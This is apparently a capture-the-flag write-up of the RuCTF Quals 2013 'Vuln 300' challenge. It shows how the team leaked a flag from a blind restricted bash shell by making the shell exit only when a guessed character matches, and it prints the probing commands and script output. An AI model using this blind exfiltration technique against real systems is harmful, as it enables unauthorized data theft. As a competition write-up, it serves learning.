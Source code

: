 ```yaml
---
title: "RuCTF Quals 2013: Vuln 300"
categories: ctf
layout: post
---
```


    $ nc aloneinthedark.quals.ructf.org 3255
    Mighty Bash is restricted and blinded. But it still can obtain the power!

This problem presents a "blinded" bash shell -- you can submit commands, which are executed, but you don't get to read their output.

We found that there was, however, a way to get information out -- if you terminate the shell, the underlying TCP connection is closed.

    $ nc aloneinthedark.quals.ructf.org 3255
    Mighty Bash is restricted and blinded. But it still can obtain the power!
    exit
    $

And you can make that exit conditional, as long as you only use bash builtins:

    $ nc aloneinthedark.quals.ructf.org 3255
    Mighty Bash is restricted and blinded. But it still can obtain the power!
    [ -d fnord ] && exit
    [ -d . ] && exit
    $

Well, then!  We can exfiltrate the flag out, bit by bit.  The basic idea is this:  Execute a command; store its output in a variable; check to see if the character at a certain index of that output is equal to a guessed character.

    $ nc aloneinthedark.quals.ructf.org 3255
    Mighty Bash is restricted and blinded. But it still can obtain the power!
    out="$(echo *)"
    [ "A" == "${out:0:1}" ] && exit
    [ "B" == "${out:0:1}" ] && exit
    [ "C" == "${out:0:1}" ] && exit
    [ "D" == "${out:0:1}" ] && exit
    [ "E" == "${out:0:1}" ] && exit
    [ "F" == "${out:0:1}" ] && exit
    $

We wrote a [quick and dirty script to automate this][lol.py].  And, after many minutes of waiting, we had our flag:

    $ python lol.py "ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz0123456789 ._-+" 'out="$(echo *)"'
    FLAG_NOGUESSING bin lib64 lost+found
    $ python lol.py "0123456789abcdef" "read out < FLAG_NOGUESSING"
    7c2b867e94f75bcb9a8e9cdf67e7a334

Of course, it turns out that there was a [much more straight-forward way][omfg] -- but hey, a flag's a flag, right?

[lol.py]: /postfiles/2013-03-13-ructf-quals-vuln-300/lol.py
[omfg]: http://peterpen-ctf.net/?p=476